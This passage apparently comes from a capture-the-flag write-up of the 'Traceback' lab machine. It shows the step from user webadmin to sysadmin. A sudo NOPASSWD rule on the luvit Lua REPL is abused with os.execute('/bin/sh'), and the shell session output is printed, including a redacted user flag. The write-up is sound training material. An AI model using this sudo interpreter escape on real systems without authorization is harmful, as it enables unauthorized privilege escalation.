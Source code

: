 ## User Shell
Upon login, it is noted that the user *webadmin* does not have read access to the **user.txt** file and therefore it's
imperative to gain access as **sysadmin**. Enumeration on the home directory of webadmin revealed an interesting file,
**note.txt** and the contents read as follows.
```text
- sysadmin - 
I have left a tool to practice Lua. 
I'm sure you know where to find it. 
Contact me if you have any question. 
```
Further enumeration showed that webadmin has *sudo* access to the binary **/home/sysadmin/luvit** which resulted in 
*lua shell*. With a little bit of Google-Fu, a method to break out lua shell was found on **GTFOBins**[^footnote3].
By executing ```os.execute("/bin/sh")```, a unrestricted shell was achieved, with which the user flag was read as 
shown in the section given below.
```shell 
webadmin@traceback:~$ sudo -l 
Matching Defaults entries for webadmin on traceback: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
 
User webadmin may run the following commands on traceback: 
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

https://gtfobins.github.io/gtfobins/lua/

webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit 
Welcome to the Luvit repl! 
> os.execute("/bin/sh") 
$ id 
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin) 
$ cd /home/sysadmin 
$ cat user.txt 
0fa07--REDACTED--51e9
```
> **An interactive shell can be obtained by executing** ***os.execute("/bin/bash")*** **instead.**